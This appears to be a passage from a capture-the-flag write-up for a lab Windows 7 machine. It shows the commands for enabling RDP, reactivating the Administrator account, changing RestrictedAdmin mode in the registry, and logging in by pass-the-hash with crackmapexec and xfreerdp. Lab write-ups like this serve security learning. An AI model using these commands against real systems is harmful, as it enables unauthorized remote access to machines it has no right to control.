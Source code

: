 Ensure the rdp is enabled

```bash

# Enable RDP
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f


# Add user to rdp group
net localgroup "Remote Desktop Users" Administrator /add


# Add firewall exceptions
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```

Administrator account is disabled

```bash
┌──(kali㉿kali)-[~/thm/blue]
└─$ cme smb 10.10.10.218 -u 'Administrator' -H '31d6cfe0d16ae931b73c59d7e0c089c0'

[*] completed: 100.00% (1/1)
SMB         10.10.10.218    445    JON-PC           [*] Windows 7 Professional 7601 Service Pack 1 x64 (name:JON-PC) (domain:Jon-PC) (signing:False) (SMBv1:True)

[*] completed: 100.00% (1/1)
SMB         10.10.10.218    445    JON-PC           [-] Jon-PC\Administrator:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_ACCOUNT_DISABLED
```

Activate it

```bash
net user Administrator /active:yes
```

There's an account restriction

```bash
┌──(kali㉿kali)-[~/thm/blue]
└─$ cme smb 10.10.10.218 -u 'Administrator' -H '31d6cfe0d16ae931b73c59d7e0c089c0'
SMB         10.10.10.218    445    JON-PC           [*] Windows 7 Professional 7601 Service Pack 1 x64 (name:JON-PC) (domain:Jon-PC) (signing:False) (SMBv1:True)
SMB         10.10.10.218    445    JON-PC           [-] Jon-PC\Administrator:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_ACCOUNT_RESTRICTION
```

`STATUS_ACCOUNT_RESTRICTION` typically means :
- NTLM is disabled (kerberos only)
- Restricted Admin Mode Is Enabled

The machine did not have kerberos enabled, 

Disable `RestrictedAdmin` mode

```bash
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

xFree RDP Pass The Hash

```bash
xfreerdp /u:Administrator /pth:31d6cfe0d16ae931b73c59d7e0c089c0 /v:10.10.10.218 /cert:ignore /tls-seclevel:0
```